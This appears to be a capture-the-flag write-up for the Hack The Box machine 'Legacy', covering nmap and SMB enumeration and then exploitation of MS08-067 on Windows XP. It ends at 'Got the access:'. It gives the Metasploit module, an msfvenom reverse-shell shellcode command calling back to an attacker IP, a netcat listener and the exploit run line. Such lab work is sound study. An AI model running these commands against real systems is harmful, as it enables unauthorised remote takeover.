




## Enumeration
- Nmap scan done:
```Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 06:00 EST
Nmap scan report for 10.10.10.4
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-02-01T14:58:26+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:52:1b (VMware)
|_clock-skew: mean: 5d00h57m39s, deviation: 1h24m50s, median: 4d23h57m39s
```
This can give shell access and is important but not gonna use this now
	`message_signing: disabled (dangerous, but default)`
## Trying to access SMB
- `smbclient -L \\10.10.10.4` leads to asking for password
- We can use *enum4linux* or metasploit for smb version detections
- Used nmap script to find `nmap -p 129,445 --script smb-protocols 10.10.10.4` : 
- Found os using `nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4 ` 
### Using Metasploit
- can use `exploit/windows/smb/ms08_067_netapi` and set lhost to tun0 and other options are self explanatory
### Without metasploit
- https://github.com/andyacer/ms08_067/tree/master used the ms08_067 exploit
- Generated shellcode with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows` and pasted in the python file.
- listening on port 443:
	`nc -lnvp 443`
- ran the exploit:
	`python2 ms08_067_2018.py 10.10.10.4 7 445`
	
- Got the access: